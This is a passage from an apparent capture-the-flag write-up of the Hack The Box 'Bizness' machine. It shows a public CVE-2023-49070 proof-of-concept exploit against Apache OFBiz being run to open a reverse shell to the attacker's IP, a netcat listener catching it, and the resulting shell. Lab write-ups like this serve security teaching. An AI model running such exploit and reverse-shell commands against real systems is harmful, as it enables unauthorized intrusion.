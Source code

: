 RCE correctly verified.

![](img/bizness4.png)

Previous exploit did not work to get a shell. The following exploit was used: [https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC). 

In addition, it was also necessary to make the version of Java installed on the machine compatible with that of the exploit.

```shell
$ java --version 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 17.0.9 2023-10-17
OpenJDK Runtime Environment (build 17.0.9+9-Debian-2)
OpenJDK 64-Bit Server VM (build 17.0.9+9-Debian-2, mixed mode, sharing)
$ sudo apt install openjdk-11-jdk
[...]
$ update-java-alternatives -l
java-1.11.0-openjdk-amd64      1111       /usr/lib/jvm/java-1.11.0-openjdk-amd64
java-1.17.0-openjdk-amd64      1711       /usr/lib/jvm/java-1.17.0-openjdk-amd64
$ sudo update-java-alternatives -s java-1.11.0-openjdk-amd64
```

After making the Java version compatible, the exploit was executed.

```shell
$ python3 exploit.py https://bizness.htb shell 10.10.14.5:80
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Not Sure Worked or not
```

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 80
        inet 10.10.14.5  netmask 255.255.254.0  destination 10.10.14.5
        inet6 fe80::2ff7:a3dc:22fb:53d  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1003  prefixlen 64  scopeid 0x0<global>
listening on [any] 80 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.252] 40158
bash: cannot set terminal process group (737): Inappropriate ioctl for device
bash: no job control in this shell
ofbiz@bizness:/opt/ofbiz$ id
id
uid=1001(ofbiz) gid=1001(ofbiz-operator) groups=1001(ofbiz-operator)
```
